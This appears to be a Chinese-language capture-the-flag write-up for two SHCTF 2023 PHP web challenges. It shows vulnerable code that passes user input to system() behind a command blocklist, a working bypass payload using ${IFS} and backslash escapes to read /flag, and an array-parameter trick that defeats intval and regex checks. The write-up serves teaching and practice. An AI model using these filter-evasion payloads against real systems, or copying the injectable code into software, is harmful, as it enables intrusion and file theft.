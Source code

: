 ## Week1

### babyRCE

```php
<?php
$rce = $_GET['rce'];
if (isset($rce)) {
    if (!preg_match("/cat|more|less|head|tac|tail|nl|od|vi|vim|sort|flag| |\;|[0-9]|\*|\`|\%|\>|\<|\'|\"/i", $rce)) {
        system($rce);
    }else {
            echo "hhhhhhacker!!!"."\n";
    }
} else {
    highlight_file(__FILE__);
}
```

过滤了空格和一些参数，可以用`${IFS}`绕过空格，转义符`\`绕过参数过滤

[RCE总结](https://www.freebuf.com/articles/web/330736.html)

payload：

```
ca\t${IFS}/fl\ag
```

### 1zzphp

```php
<?php 
error_reporting(0);
highlight_file('./index.txt');
if(isset($_POST['c_ode']) && isset($_GET['num']))
{
    $code = (String)$_POST['c_ode'];
    $num=$_GET['num'];
    if(preg_match("/[0-9]/", $num)) //数组绕过，传入数组是返回false
    {
        die("no number!");
    }
    elseif(intval($num)) //传入数组会返回1
    {
      if(preg_match('/.+?SHCTF/is', $code))
      {
        die('no touch!');
      }
      if(stripos($code,'2023SHCTF') === FALSE)
      {
        die('what do you want');
      }
      echo $flag;
    }
}
```

